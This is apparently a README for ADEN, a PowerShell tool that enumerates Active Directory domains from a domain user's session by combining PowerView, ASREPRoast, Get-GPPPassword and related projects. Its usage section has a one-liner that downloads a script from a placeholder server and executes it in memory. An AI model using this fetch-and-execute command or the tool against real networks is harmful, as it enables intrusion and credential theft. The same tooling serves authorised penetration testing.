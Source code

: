 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL

It is to be used as an all-in-one enumeration routine to spin off when you are in a domain user's session.\\\\
Big credits to all the authors of the above mentioned tools! You are awesome.


## How to use?
From a domain's user powershell session:
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-ADEnum
```
The script will perform a number of checks that you can directly see on a clear output. The only thing it doesn't do is ACL enumeration, I recommend you do this once you know your user context, then you can issue manually a command like this:
```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "[YOUR_GROUP]"} | select ObjectDN, IdentityReference, ActiveDirectoryRights, AccessControlType
```
